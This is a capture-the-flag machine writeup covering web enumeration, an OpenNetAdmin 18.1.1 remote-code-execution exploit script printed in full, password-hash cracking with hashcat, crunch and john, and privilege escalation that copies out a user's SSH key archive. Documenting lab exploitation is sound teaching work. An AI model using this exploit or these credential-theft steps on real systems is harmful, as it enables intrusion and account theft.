










__WARNING__: There were some changes made after I beta tested the machine so you might not see some things at the place this writeup says so but you would still be able to root the machine with the help of this writeup.

## Nmap



***

## HTTP

When we visit the website on port 80 we see page that have a `HINT` for us:


Since there wasn't much on the page I ran gobuster on it.



we can see that there is a `robots.txt` file there.



There is only one entry in that file i.e `/ona`. If we visit that we are given access to a `opennetadmin` interface with guest login.



I tried looking around the interface but couldn't find anything interesting and also for some reason my mind was trying to find some password hashes since the hint said something about `hashcat` and we know hashcat only works on hashes of some kind.

I searched `opennetadmin` on `searchsploit` and found an exploit for version `18.1.1`.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

If we run
```bash
bash exp.sh http://192.168.56.145/ona/
```

We'll get a shell but in some way it is restricted cause we cannot do things like change directory to something else like `cd /home` etc.



In this shell we can run `ls` or `cat` type command but we cannot leave the directory we are currently in, it some kind of sandbox. First I thought since we cannot leave the directory meaning we have to look within the content of this directory but then I noticed something if we run any command that might result in error, the error isn't shown. Like `cat /etc/shadow` would give some kind of `permission denied` but we don't see any error, so some way these errors are being compressed.

So I ran the following command to find all the file `www-data` have access to.

```bash
$ find / -type f -user www-data
```

__CMD Breakdown__

* find - is a linux command to find anything like file or directory.
* The first argument i.e `/` is the place to perform the search.
* `-type` - It takes `f` or `d` resembling what we are searching.
    - `f` - For files
    - `d` - For directories
* `-user` - This tells in connection to which user.
This command will search all the `files` that have permission for `www-data` under `/`(complete file system)


We can see that there are two files that `www-data` have permission for. If we read the `/var/www/html/reports/.htaccess` file we'll get the following output:


In the output we can see `AuthUserFile` path if we read that we'll get a password hash for user `douglas`


```
douglas:$apr1$jHPnRKKJ$kmU1v2VAklzsKiNdOv0cb1
```

Now we can run hashcat on this hash to crack the password. We can use the following command to crack with `hashcat`

```bash
➜ hashcat -m 1600 hash.txt --force -a 3 -1 aefhrt ?1?1?1?1?1?1?1?1 -O
```

But for some reason hashcat was acting up so I made a list using `crunch` and then used `jtr` to crack using that list.

```bash
➜ crunch 8 8 aefhrt > password.txt
➜ john --wordlist=password.txt hash.txt
```



`douglas:fatherrr`

We can use this password to login via `SSH`



***

## Privilege Escalation

The first thing I checked was the sudo right for `douglas`


We can run `cp` and `ls` as `jen` meaning we'll be able to look into `/home/jen` directory and see if there is something worth taking.


So we can copy files with cp command in `/tmp` but issue is that we still won't be able to open that file cause it will have `jen` permission.

To bypass that we can just download those files on our own system and open it normally.

```bash
sudo -u jen /bin/cp /home/jen/keys.tar.gz /tmp/
```

Then start `python -m http.server` and get that tar file. That file had private SSH key for `jen`. We can just use those to login as `jen`.

```bash
ssh jen@192.168.56.145 -i id_rsa
```



I again ran the `find` command but this type to look for `jen` files and found that there was a `/var/mail/jen`.



we can see that there is the password for `moss`.

`moss:Fire!Fire!`

Then in `moss` home directory I found that there was a hidden directory named `.games` in there was a binary named `upyourgame` now TBH I don't know what it was I just ran it and typed yes and no and got root.




***

This was an a nice machine and I really liked it. Thanks to [@DCAU7](https://twitter.com/DCAU7) or I should say [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
